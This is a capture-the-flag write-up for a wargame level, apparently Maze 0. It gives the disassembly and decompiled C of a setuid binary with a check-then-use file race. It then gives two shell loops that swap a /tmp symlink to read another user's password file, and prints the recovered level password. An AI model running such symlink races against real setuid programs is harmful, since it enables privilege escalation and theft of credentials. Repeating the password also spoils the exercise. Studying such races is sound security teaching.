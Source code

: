 ```assembly
   0x0804854b <+0>:	push   %ebp
   0x0804854c <+1>:	mov    %esp,%ebp
   0x0804854e <+3>:	push   %esi
   0x0804854f <+4>:	push   %ebx
   0x08048550 <+5>:	sub    $0x18,%esp
   0x08048553 <+8>:	push   $0x14
   0x08048555 <+10>:	push   $0x0
   0x08048557 <+12>:	lea    -0x20(%ebp),%eax
   0x0804855a <+15>:	push   %eax
   0x0804855b <+16>:	call   0x8048420 <memset@plt>
   0x08048560 <+21>:	add    $0xc,%esp
   0x08048563 <+24>:	push   $0x4
   0x08048565 <+26>:	push   $0x8048660
   0x0804856a <+31>:	call   0x8048430 <access@plt>
   0x0804856f <+36>:	add    $0x8,%esp
   0x08048572 <+39>:	test   %eax,%eax
   0x08048574 <+41>:	jne    0x80485d4 <main+137>
   0x08048576 <+43>:	call   0x80483d0 <geteuid@plt>
   0x0804857b <+48>:	mov    %eax,%esi
   0x0804857d <+50>:	call   0x80483d0 <geteuid@plt>
   0x08048582 <+55>:	mov    %eax,%ebx
   0x08048584 <+57>:	call   0x80483d0 <geteuid@plt>
---Type <return> to continue, or q <return> to quit---
   0x08048589 <+62>:	push   %esi
   0x0804858a <+63>:	push   %ebx
   0x0804858b <+64>:	push   %eax
   0x0804858c <+65>:	call   0x80483b0 <setresuid@plt>
   0x08048591 <+70>:	add    $0xc,%esp
   0x08048594 <+73>:	push   $0x0
   0x08048596 <+75>:	push   $0x8048660
   0x0804859b <+80>:	call   0x80483f0 <open@plt>
   0x080485a0 <+85>:	add    $0x8,%esp
   0x080485a3 <+88>:	mov    %eax,-0xc(%ebp)
   0x080485a6 <+91>:	cmpl   $0x0,-0xc(%ebp)
   0x080485aa <+95>:	jns    0x80485b3 <main+104>
   0x080485ac <+97>:	push   $0xffffffff
   0x080485ae <+99>:	call   0x80483e0 <exit@plt>
   0x080485b3 <+104>:	push   $0x13
   0x080485b5 <+106>:	lea    -0x20(%ebp),%eax
   0x080485b8 <+109>:	push   %eax
   0x080485b9 <+110>:	pushl  -0xc(%ebp)
   0x080485bc <+113>:	call   0x80483c0 <read@plt>
   0x080485c1 <+118>:	add    $0xc,%esp
   0x080485c4 <+121>:	push   $0x13
   0x080485c6 <+123>:	lea    -0x20(%ebp),%eax
   0x080485c9 <+126>:	push   %eax
---Type <return> to continue, or q <return> to quit---
   0x080485ca <+127>:	push   $0x1
   0x080485cc <+129>:	call   0x8048410 <write@plt>
   0x080485d1 <+134>:	add    $0xc,%esp
   0x080485d4 <+137>:	mov    $0x0,%eax
   0x080485d9 <+142>:	lea    -0x8(%ebp),%esp
   0x080485dc <+145>:	pop    %ebx
   0x080485dd <+146>:	pop    %esi
   0x080485de <+147>:	pop    %ebp
   0x080485df <+148>:	ret 
```

```c
int main(int argc,char **argv)

{
  int __fd;
  __uid_t __suid;
  __uid_t __euid;
  __uid_t __ruid;
  char buf [20];
  int fd;
  
  memset(buf,0,0x14);
  __fd = access("/tmp/128ecf542a35ac5270a87dc740918404",4);
  if (__fd == 0) {
    __suid = geteuid();
    __euid = geteuid();
    __ruid = geteuid();
    setresuid(__ruid,__euid,__suid);
    __fd = open("/tmp/128ecf542a35ac5270a87dc740918404",0);
    if (__fd < 0) {
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
    read(__fd,buf,0x13);
    write(1,buf,0x13);
  }
  return 0;
}
```

Explanation:

|      | This was a file race condition challenge. Maze0 first checks to see if it has access permitions to a file "/tmp/128ecf542a35ac5270a87dc740918404." It then changes its effective User ID to Maze1, opens that same file, reads the contents and prints it to the console. By making that file a symbolic link, you can make the executable read the contents of any file you want. The only problem is the permissions. If the symbolic link links to a file, such as etc/maze_pass/maze1, it will fail the first access check that makes sure Maze0 can read it. However, since the files are being checked at two different point in time, it is possible for another process to change the file between the first check (before the SetUID) and the read afterwards. Therefore, the idea is to have the symlink be readable by Maze0 during the first check, and readable by Maze1 after the SetUID. |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

​	**/tmp/128ecf542a35ac5270a87dc740918404** this is basicaly a symbolic link to the file **/etc /maze_pass/maze1**

![Screen Shot 2019-12-30 at 8.48.14 PM](/Users/tomal/Desktop/Screen Shot 2019-12-30 at 8.48.14 PM.png)

In One tab run :

```
while [ 1 ]; do ./maze0; done;
```

in another run :

```
while [ 1 ]; do ln -sf /etc/maze_pass/maze0 /tmp/128ecf542a35ac5270a87dc740918404;ln -sf /etc/maze_pass/maze1 /tmp/128ecf542a35ac5270a87dc740918404;clear;done 
```

**This runs maze0 over and over again, while repeatedly swapping the symbolic link between maze0 (readable by maze0) and maze1 (contains the flag)**

**PASS word**:  hashaachon

